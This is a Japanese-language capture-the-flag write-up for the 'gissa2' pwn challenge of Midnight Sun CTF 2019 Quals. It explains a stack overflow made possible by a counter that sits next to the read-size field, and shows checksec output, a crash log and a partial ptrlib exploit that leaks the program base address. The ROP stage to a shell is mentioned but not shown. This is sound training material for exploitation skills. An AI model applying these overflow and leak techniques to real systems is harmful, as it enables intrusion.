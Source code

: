 # [pwn 631pts] gissa2 - Midnight Sun CTF 2019 Quals
64ビットバイナリで、libcは使わずsyscallで各種関数を実装しています。
```
$ checksec -f gissa_igen
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No	0		0	gissa_igen
```
ざっくり読むと、flagをmmapした領域に読み込み、ユーザーが3回まで入力し、flagと一致しているかを確認しています。
何も入力しないとカウンタは進まず（というか失敗カウンタが増えて）絶対に3回は入力できます。
SSPだけ無効ということで、オーバーフローが怪しいのでとりあえず入力を受け付けている関数を見てみます。

入力を受け付ける関数は改行もしくは指定されたサイズまでreadします。
また、このサイズはmain関数から渡されており、スタック上に初期状態で0x8bとして存在します。
一方バッファはちゃんと0x8cバイト取られているのでオーバーフローはありません。
しかし、何も入力しないと増えるカウンタが隣接しており、かつサイズはintとして読み込まれるため、最初に何も入力しないと次に0x1008bバイト入力できます。

```
flag (1/3): 
try again.
flag (1/3): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not right.
Segmentation fault (コアダンプ)
```

また、writeするサイズはstrlenで計算されるので、バッファオーバーリードによりproc baseが取れます。
しかし、改行文字が入るとNULLに置き換えられてしまうので、最初はsizeを0xa8にし、2回目に限度ぎりぎりまで入力してオーバーリードします。
あと普通のカウンタもスタック上にあるので、miscntとcntを上手く書き換えてループを抜けないように注意しましょう。
（`cnt <= miscnt + 3`ならOKなのでcntを負の値にします。）
libcが使われていないので適当にROPしてシェルを取る必要があります。

次のようにROPできます。
```python
from ptrlib import *

sock = Process("./gissa_igen")

sock.recvuntil(": ")
sock.sendline("")

# prepare for overread
payload = b'A' * 0x8c
payload += p32(0xa8) # size
sock.recvuntil(": ")
sock.sendline(payload)

_ = input()
# leak proc base
payload = b'A' * 0x8c
payload += p16(0xbeef) # size
payload += p16(0x7fad) # miscnt
payload += b'A' * 8
payload += p64(0x893fffff01010101) # cnt
payload += b'A' * 8
sock.recvuntil(": ")
sock.sendline(payload)
result = sock.recvuntil(" is not right.")
addr_main_ret = u64(result.rstrip(b" is not right.")[-6:])
proc_base = addr_main_ret - 0xbc5
dump("proc base = " + hex(proc_base))
```